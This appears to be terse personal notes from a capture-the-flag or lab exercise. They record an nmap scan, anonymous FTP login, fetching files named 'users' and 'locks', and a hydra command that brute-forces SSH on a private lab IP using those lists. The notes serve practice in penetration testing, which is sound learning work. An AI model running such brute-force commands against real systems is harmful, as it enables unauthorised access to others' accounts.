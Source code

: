 nmap --> ftp, ssh

ftp -- anonymous

login

ls doesnt work

google workaround

quote PASV

ls

get locks

get users

hydra --> ssh brute force with usernames and passwords from ftp files

hydra -L users.txt -P locks.txt 10.10.198.21 ssh